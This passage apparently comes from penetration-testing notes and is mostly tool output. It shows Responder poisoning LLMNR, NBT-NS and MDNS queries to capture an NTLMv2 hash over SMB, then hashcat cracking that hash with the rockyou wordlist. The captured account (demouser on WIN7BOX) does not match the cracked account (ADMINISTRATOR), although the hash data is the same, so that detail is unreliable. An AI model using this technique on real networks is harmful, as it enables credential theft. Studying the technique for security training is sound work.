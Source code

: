 ```sh
[*] [NBT-NS] Poisoned answer sent to 10.10.110.17 for name WORKGROUP (service: Domain Master Browser)
[*] [NBT-NS] Poisoned answer sent to 10.10.110.17 for name WORKGROUP (service: Browser Election)
[*] [MDNS] Poisoned answer sent to 10.10.110.17   for name mysharefoder.local
[*] [LLMNR]  Poisoned answer sent to 10.10.110.17 for name mysharefoder
[*] [MDNS] Poisoned answer sent to 10.10.110.17   for name mysharefoder.local
[SMB] NTLMv2-SSP Client   : 10.10.110.17
[SMB] NTLMv2-SSP Username : WIN7BOX\demouser
[SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:997b18cc61099ba2:3CC46296B0CCFC7A231D918AE1DAE521:0101000000000000B09B51939BA6D40140C54ED46AD58E890000000002000E004E004F004D00410054004300480001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D0042003100320008003000300000000000000000000000003000004289286EDA193B087E214F3E16E2BE88FEC5D9FF73197456C9A6861FF5B5D3330000000000000000
```

* All saved Hashes are located in Responder's logs directory (`/usr/share/responder/logs/`)

**Note:** If you notice multiples hashes for one account this is because NTLMv2 utilizes both a client-side and server-side challenge that is randomized for each interaction. This makes it so the resulting hashes that are sent are salted with a randomized string of numbers. This is why the hashes don't match but still represent the same password.

```sh
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344386
* Bytes.....: 139921355
* Keyspace..: 14344386

ADMINISTRATOR::WIN-487IMQOIA8E:997b18cc61099ba2:3cc46296b0ccfc7a231d918ae1dae521:0101000000000000b09b51939ba6d40140c54ed46ad58e890000000002000e004e004f004d00410054004300480001000a0053004d0042003100320004000a0053004d0042003100320003000a0053004d0042003100320005000a0053004d0042003100320008003000300000000000000000000000003000004289286eda193b087e214f3e16e2be88fec5d9ff73197456c9a6861ff5b5d3330000000000000000:P@ssword
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
Hash.Target......: ADMINISTRATOR::WIN-487IMQOIA8E:997b18cc61099ba2:3cc...000000
Time.Started.....: Mon Apr 11 16:49:34 2022 (1 sec)
Time.Estimated...: Mon Apr 11 16:49:35 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1122.4 kH/s (1.34ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 75776/14344386 (0.53%)
Rejected.........: 0/75776 (0.00%)
Restore.Point....: 73728/14344386 (0.51%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: compu -> kodiak1

Started: Mon Apr 11 16:49:34 2022
Stopped: Mon Apr 11 16:49:37 2022
```
